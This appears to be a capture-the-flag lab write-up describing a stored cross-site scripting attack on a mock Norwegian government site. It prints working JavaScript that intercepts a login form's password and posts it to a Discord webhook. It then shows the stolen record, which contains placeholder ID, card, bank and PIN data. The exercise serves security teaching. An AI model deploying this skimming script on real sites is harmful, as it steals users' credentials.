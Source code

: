 # Attack 3 - Cross-Site Scripting

In this attack I created a script in the JavaScript language and made the web server store it by using it as input on the webpage. This is in other words an attack which is called XSS (Cross-Site Scripting), and will allow me to retrieve confidential information on Jonas Dahl's wireguard password.

The following JavaScript code is what was used in order to fetch the wireguard credentials.
```JavaScript
<script>
  document.addEventListener("DOMContentLoaded", () => {
    document.getElementById("authForm").addEventListener("submit", function(event) {
      event.preventDefault();

      var password = document.getElementById("authPassword").value;

      var webhook_url = 'https://discord.com/api/webhooks/1184540771815272560/vHZepaE0mcSkjheuuDKDmo4gdpKLGM8wtaFJxlNFHbs2artJraMgfrpMtHE4TjgzOub6';

      var message_data = {
          content: 'WireGuard Password:\n' + password,
      };

      var json_data = JSON.stringify(message_data);

      var xhr = new XMLHttpRequest();
      xhr.open("POST", webhook_url, true);
      xhr.setRequestHeader("Content-Type", "application/json");

      xhr.onreadystatechange = function() {
          if (xhr.readyState === 4) {
              if (xhr.status === 200) {
                  console.log('Message sent to Discord successfully!');
              } else {
                  console.error('Error sending message to Discord.');
              }
          }
      };

      xhr.send(json_data);
    });
  });
</script>
```

Using this, the wireguard password was sent to my discord server where I then used it on the website and retrieved the wireguard credentials:
```json
{
  "name": "Jonas Dahl",
  "email": "jonas.dahl@regjeringen.no",
  "address": {
    "street": "Regjeringsgata 16",
    "city": "Oslo",
    "postal_code": "1111",
    "country": "Norway"
  },
  "phone": "+47 123 45 678",
  "birthdate": "1985-06-15",
  "gender": "Male",
  "national_id": "15068512345",
  "passport_number": "N12345678",
  "nationality": "Norwegian",
  "occupation": "Technical Officer",
  "company": {
    "name": "Regjeringen",
    "address": {
      "street": "Regjeringsgata 16",
      "city": "Oslo",
      "postal_code": "1111",
      "country": "Norway"
    },
    "phone": "+47 987 65 432",
    "industry": "Government",
    "position": "Technical Officer",
    "department": "Technical and Infrastructure",
    "start_date": "2010-05-01",
    "manager": "Ingrid Nilsen",
    "manger_username": "ingridnilsen"
  },
  "credit_card": {
    "type": "Visa",
    "number": "4111 2222 3333 4444",
    "expiration": "12/26",
    "cvv": "234",
    "cardholder_name": "Jonas Dahl"
  },
  "bank_account": {
    "bank_name": "Statens Bank",
    "account_number": "1234.56.78910",
    "iban": "NO1234567890123",
    "swift_bic": "STBANOXX"
  },
  "hidden_details": {
    "security_question": "Hva var navnet på din første lærer?",
    "security_answer": "Frøken Andersen",
    "pin": "5678",
    "mother_maiden_name": "Larsen"
  },
  "flag": "Dropbox is the flag :)",
  "dropbox": "https://dropbox.internal.regjeringen.uiaikt.no/"
}
```